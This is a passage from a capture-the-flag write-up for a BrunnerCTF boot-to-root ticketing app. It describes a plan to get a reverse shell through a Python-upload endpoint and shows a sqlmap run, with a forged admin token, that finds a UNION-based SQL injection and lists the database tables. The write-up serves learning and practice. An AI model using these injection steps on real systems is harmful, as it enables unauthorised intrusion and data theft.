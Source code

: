 From the swagger file we can see there is a endpoint, that lets us upload a python file to the website and then it will execute it. This function of the website might let us to generate a reverse shell and catch it. To do that we need an API key which we don't have yet.

### SQL Injection

After some trial and error we found an interesting endpoint that we could use to maybe get the API key. If you use SQL map on the search endpoint, it reveals that is it vulnerable for SQL injection attacks.

```
┌──(kali㉿kali)-[~/brunnerctf/challenges/Boot2Root/tickets-app-user]
└─$ sqlmap -u "https://tickets-app-user-3eea27441b01d05c.challs.brunnerne.xyz/api/search?name=test" --cookie="token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU2MTA1ODk0LCJ1c2VyIjoidGVzdCJ9.zCY3ZaxhOliQAiSvbyjUR1BrENh4bnCDrdRXhuDtVbg" --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:20:24 /2025-08-25/

Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
[08:20:26] [INFO] resuming back-end DBMS 'sqlite' 
[08:20:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: name=test' UNION ALL SELECT NULL,NULL,CONCAT(CONCAT('qbkqq','OhiuOvNAsRlGAvNXBSkyBHqnWIVUbOZEPjQxYeKb'),'qqzxq'),NULL-- dIXv
---
[08:20:27] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[08:20:27] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[3 tables]
+-----------------+
| settings        |
| sqlite_sequence |
| users           |
+-----------------+

[08:20:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/tickets-app-user-3eea27441b01d05c.challs.brunnerne.xyz'                                                                                                                            

[*] ending @ 08:20:27 /2025-08-25/

```
